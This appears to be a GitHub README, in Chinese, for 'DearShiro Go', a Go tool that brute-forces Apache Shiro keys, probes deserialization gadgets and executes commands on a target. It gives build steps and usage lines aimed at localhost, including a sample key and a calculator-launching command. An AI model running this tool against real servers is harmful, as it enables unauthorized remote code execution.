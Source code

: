 DearShiro Go

Golang入门练手，[DearShiro](https://github.com/F4ded/DearShiro)的Golang改写版。

无需Java环境，序列化数据由golang原生生成，感谢@EmYiQing师傅提供的[Gososerial](https://github.com/EmYiQing/Gososerial)项目。


已完成: 
- 探测Key
- 探测可用gadget
- 利用gadget执行命令

```
go build -ldflags "-w -s" dearshiro.go
```

```
./dearshiro

./dearshiro {kfuzz | gfuzz | cexec} --help

./dearshiro kfuzz http://127.0.0.1:8000

./dearshiro gfuzz http://127.0.0.1:8080 -k=kPH+bIxk5D2deZiIxcaaaA==

./dearshiro cexec http://127.0.0.1:8000 [-k] -g=CCK1 -c='Open -a Calculator'
```
